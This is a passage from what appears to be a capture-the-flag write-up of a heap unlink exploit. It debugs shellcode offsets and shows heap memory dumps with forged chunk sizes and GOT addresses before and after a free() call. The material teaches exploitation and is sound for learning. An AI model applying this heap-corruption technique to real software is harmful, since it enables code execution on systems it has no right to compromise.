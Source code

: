 It made it to executing our shell code, but our shell code isn't right... what went wrong? We can see what happened in the fact that our nops are broken up. In writing the exploit I forgot that I would be writing to the address we gave +8... This means that rather than our last couple bytes of shellcode being what we expected, the offset when it starts ends up being overwritten by the address of the GOT!!! All we need to do is reduce the size of the nops and lower our offset from the start of the heap to match. We could go no nops, but I'll leave 4 there for funsies. The heap offset will be reduced from 16 to 12, too.

Now this is what our heap looks like after the first copy:
```
0xf7e69000│+0x0000 0x0000002900000000
0xf7e69008│+0x0008 0x0487d56890909090
0xf7e69010│+0x0010 0x000000000000c308
0xf7e69018│+0x0018 0x0000000000000000
0xf7e69020│+0x0020 0x0000000000000000
0xf7e69028│+0x0028 0x0000002900000000
0xf7e69030│+0x0030 0x4141414141414141
0xf7e69038│+0x0038 0x4141414141414141
0xf7e69040│+0x0040 0x4141414141414141
0xf7e69048│+0x0048 0x4141414141414141
0xf7e69050│+0x0050 0xffffffb0fffffffc
0xf7e69058│+0x0058 0x0804c13041414141
0xf7e69060│+0x0060 0x00000000f7e6900c
0xf7e69068│+0x0068 0x0000000000000000
0xf7e69070│+0x0070 0x0000000000000000
0xf7e69078│+0x0078 0x000fff8900000000
```

Everything is looking promising, we have our addresses in the right places for chunk C, and our shellcode visible in chunk A. We can even see our sizes in chunk C. Let's go to the first free.

```
0xf7e69000│+0x0000 0x00000028ffffffac
0xf7e69008│+0x0008 0x0487d56890909090
0xf7e69010│+0x0010 0x0804c1300000c308
0xf7e69018│+0x0018 0x0000000000000000
0xf7e69020│+0x0020 0x0000000000000000
0xf7e69028│+0x0028 0x0000002900000000
0xf7e69030│+0x0030 0x4141414141414141
0xf7e69038│+0x0038 0x4141414141414141
0xf7e69040│+0x0040 0x4141414141414141
0xf7e69048│+0x0048 0x4141414141414141
0xf7e69050│+0x0050 0xffffffb0fffffffc
0xf7e69058│+0x0058 0x0804c1f4ffffffad
0xf7e69060│+0x0060 0x000000000804c1f4
0xf7e69068│+0x0068 0x0000000000000000
0xf7e69070│+0x0070 0x0000000000000000
0xf7e69078│+0x0078 0x000fff8900000000
```

Various things have changed, but it should still run. First off, our addresses actually did switch around, so we know that worked. Next, our `PREV_INUSE` bit and `prev_size` from chunk A have changed, so we successfully convinced it to think that chunk C is before it. And it once again wrote an address to chunk A, but it's after our shell code, so we're safe! Let's check our GOT, too.
